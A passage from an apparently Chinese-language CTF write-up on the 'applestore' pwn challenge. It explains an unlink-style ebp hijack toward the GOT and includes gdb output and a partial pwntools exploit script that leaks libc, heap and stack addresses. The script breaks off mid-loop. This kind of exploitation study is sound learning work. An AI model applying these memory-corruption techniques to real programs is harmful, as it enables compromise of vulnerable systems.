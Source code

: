 打印结果为：

```
[!] libc_addr: 0xf7dca000
[!] heap_addr: 0x8be7000
[!] stack_addr: 0xff851e78
[!] ebp: 0xff851e98
```

gdb结果：

```c
[#0] 0x80489c0 → delete()
[#1] 0x8048c46 → handler()
[#2] 0x8048cf5 → main()
────────────────────────────────────────────────────────────────────────────────
$1 = (void *) 0xff851e98
```

可见的确，进入到delete函数中的ebp和在checkout中的ebp是相同的。那么我们便可以劫持ebp到GOT表底部，即`* ebp = 0x0804B044`，然后进行公式计算：

```c
fd[3]=bk
bk[2]=fd
```

```
令：fd[3] = * ebp , bk = 0x0804B044
即：fd + 0xc  = ebp, bk = 0x0804B044
即：fd = ebp - 0xc, bk = 0x0804B044

故：bk[2] = 0x0804B04c，为可写的data段，不会崩溃
```

所以通过构造`fd = ebp - 0xc, bk = 0x0804B044`的结构体，然后delete，返回到handler函数后，ebp即被劫持到0x0804B040，调试如下：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF('applestore')
libc = ELF('../../my_ubuntu32_libc.so')
io = process(myelf.path)

add = '2';delete='3';cart='4';checkout='5'

def action(num,payload):
    io.sendlineafter('> ',num)
    io.sendlineafter('> ',payload)
for i in range(6):
    action(add,'1')
for i in range(20):
    action(add,'2')
action(checkout,'y')

payload = 'y\x00'+p32(myelf.got['puts'])+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)

io.recvuntil('27: ')
libc_addr = u32(io.recv(4))-libc.symbols['puts']
io.recvuntil('28: ')
heap_addr = u32(io.recv(4))-0x490

payload = 'y\x00'+p32(heap_addr+0x8b0)+p32(1)+p32(0x0804B070)+p32(1)
action(cart,payload)
io.recvuntil('27: ')
stack_addr = u32(io.recv(4)) 
ebp = stack_addr + 0x20

for i in range(25):
```